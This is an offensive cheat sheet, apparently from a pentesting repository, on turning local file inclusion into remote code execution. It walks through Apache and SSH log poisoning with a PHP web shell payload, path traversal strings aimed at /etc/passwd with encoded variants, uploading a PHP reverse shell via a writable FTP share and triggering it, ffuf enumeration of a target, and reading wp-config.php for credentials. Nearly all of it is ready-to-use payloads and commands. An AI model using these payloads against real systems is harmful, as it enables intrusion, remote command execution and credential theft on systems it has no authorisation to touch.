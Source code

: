 # LFI

If you locate an LFI, first try to get RCE.

## Log Poisoning

### 1) Locate a writable log file

    /var/log/apache2/access.log

### 2) Inject a payload

Inject a simple web shell payload into a request header (e.g., User-Agent or Referer) that the web server will log.

Payload:

    <?php echo system($_GET['cmd']); ?>

### 3) Execute via LFI

    http://example.com/vulnerable.php?page=/path/to/log/access.log&cmd=whoami

## Alternate poisoning method: SSH Log Poisoning

### 1) Locate the log file

    /var/log/auth.log

### 2) Poison the auth.log file

Connect to SSH port via netcat

    nc -nv IP 22

Inject payload

    <?php echo system($_GET['cmd']); ?>

### 3) Run commands via your webshell now

    http://domain.local/lfi.php?file=/var/log/auth.log?cmd=whoami

## Path Traversal manual payloads

Simple traversal: start with 

    ../../../../etc/passwd 

Try variants like : 

    ..//..//..//etc/passwd 
    
or 

    ..\/..\/..\/etc/passwd.

Dot+slash permutations: 

    ..././../ 
    
or 

    ..%2f..%2f..%2fetc/passwd (URL encoded).

Try Double-encoding: 

URL-encode twice if the app decodes input more than once (example: %252e%252e%252f = %2e%2e%2f).

## LFI to RCE by calling your uploaded reverse shell

If you have write access on an FTP server, you can upload your reverse shell, then call it with LFI to catch it.

### 1) Upload your reverse shell in a writable FTP share

    put php-reverse-shell.php

### 2) Using LFI, find the FTP configuration file to detect the share that your shell is uploaded.

Enumerate with ffuf

    ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt -t 100 -u http://192.168.158.14/secret_information/?lang=FUZZ -fs 146

Read FTP configuration file

    http://domain.local/vulnerable.php?lang=/etc/vsftpd.conf

You might detect something like

    anon_root=/var/ftp write_enable=YES (If anonymous access is allowed for example.)

### 3) Enjoy your shell

    http://domain.local/vulnerable.php?lang=/var/ftp/pub/php-reverse-shell.php

## LFI an a WordPress application

If we detect a Wordpress application that has LFI vulnerability, we can extract the application's wp-config.php for credentials.

    /var/www/html/wp-config.php
